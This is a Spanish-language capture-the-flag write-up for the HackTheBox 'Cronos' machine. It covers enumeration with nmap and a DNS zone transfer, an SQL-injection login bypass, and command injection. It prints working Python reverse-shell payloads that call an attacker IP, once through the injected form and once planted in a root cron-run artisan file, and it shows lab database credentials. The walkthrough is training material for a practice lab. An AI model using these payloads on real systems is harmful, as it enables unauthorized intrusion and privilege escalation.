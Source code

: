 ```yaml
---
layout : post
author: X4v1l0k
title: Cronos Writeup [HTB]
date: 2020-11-06 20:12:00 +/- 0000
categories: [Machine-Writeup, HackTheBox]
tags: [Command injection,Crontab,PHP]
headline: Cronos is a beginner-friendly Linux machine from Hackthebox, where we will bypass a html login with SQL injection, we will get a shell using Command injection and we will escalate privileges taking advantage of a cron task.
image: https://www.hackthebox.eu/storage/avatars/f77c75f363afe0d0a6eeccf6a8d8c252.png
---
```


Cronos - 10.10.10.13
===
![](https://www.hackthebox.eu/storage/avatars/f77c75f363afe0d0a6eeccf6a8d8c252.png)
###### tags: `HTB` `Medium` `Linux`

# Enumeración
## Nmap
```bash
$ nmap -A -Pn -p- 10.10.10.13

Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-05 19:25 CET
Nmap scan report for 10.10.10.13
Host is up (0.034s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   33.72 ms 10.10.14.1
2   33.77 ms 10.10.10.13

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.44 seconds
```

## Puerto 53
- Sabiendo que tiene el puerto DNS abierto, registro la IP dentro del archivo hosts como cronos.htb y ahora, al acceder desde el navegador a http://cronos.htb nos encontramos con una web.
- Ahora, para completar la enumeración del puerto, vamos a ver si tiene más dominios asociados.

```bash
$ dig @10.10.10.13 cronos.htb axfr

; <<>> DiG 9.16.4-Debian <<>> @10.10.10.13 cronos.htb axfr
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 36 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: jue nov 05 19:30:19 CET 2020
;; XFR size: 7 records (messages 1, bytes 203)
```
- Vemos que también está disponible http://admin.cronos.htb por lo tanto, lo añadimos también a nuestro archivo hosts.

## Puerto 80
- Dentro de la URl http://cronos.htb nos encontramos 5 enlaces a recursos externos.
- Dentro de http://admin.cronos.htb/ nos encontramos una página de login.

# Explotación
- Para hacer bypass al login de http://admin.cronos.htb/ usamos:
	- `username: admin' or '1'='1 #`
	- `password: cualquiercosa`
- Ahora, nos encontramos un formulario en el que según parece podemos hacer ping y tracert a una ip.
- Si ponemos en el input `;id` podemos ver que tenemos RCE como www-data por lo que, vamos a por una shell.
- Perfecto, usando el siguiente payload, obtenemos shell.

```
;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.35",8787));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

# Post explotación
## Escala de privilegios
- Dentro del archivo config.php nos encontramos unas credenciales de la base de datos.

```bash
$ www-data@cronos:/var/www/admin$ cat config.php 
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```

- Vamos a conectarnos a la base de datos y ver que sacamos.

```bash
$ www-data@cronos:/home$ mysql -u admin -p

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| admin              |
+--------------------+
2 rows in set (0.00 sec)

mysql> use admin
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------+
| Tables_in_admin |
+-----------------+
| users           |
+-----------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 4f5fffa7b2340178a716e3832451e058 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```

- Ahora tenemos una encriptación en lo que parece ser MD5. Mientras la crackea, vamos a lanzar linpeas.


```bash
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

- Linpeas nos reporta un cron ejecutándose como root sobre un archivo del que somos propietarios por lo que, podemos inyectar en el una shell!. Modificamos el inicio del archivo dejándolo del siguiente modo.

```bash
$ nano /var/www/laravel/artisan

#!/usr/bin/env php
<?php

system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.35",8787));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'');
```

- Ahora, esperamos unos segundos con un listener corriendo y... tenemos shell como root!.
